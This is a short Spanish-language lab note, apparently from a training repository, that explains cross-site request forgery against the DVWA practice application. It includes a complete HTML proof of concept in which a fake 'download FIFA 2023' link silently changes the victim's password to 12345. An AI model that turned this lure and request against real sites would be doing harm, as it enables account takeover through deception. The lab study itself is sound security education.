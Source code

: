 El cross-site request forgery (CSRF) consiste en realizar tareas dentro de una aplicación por medio de la ejecución de un enlace en el navegador de la víctima. \
Se envía un enlace que se crea a partir de una petición que contiene la acción maliciosa planeada por el atacente. \
El siguiente códio HTML contiene la acción maliciosa que cambiará la contraseña automáticamente a (12345) al pinchar en el enlace.
```
<!DOCTYPE html>
<html lang="en">
<head>
	<meta charset="UTF-8">
	<meta name="viewport" content="width=dwvice-width, initial-scale=1.0">
	<title>Document</title>
</head>
<body>
	<h3>Click to download FIFA 2023</h3>
	<a href="http://localhost/DVWA/vulnerabilities/csrf/?password_new=12345&password_conf=12345&Change=Change#">FIFA 2023</a>
</body>
</html>
```
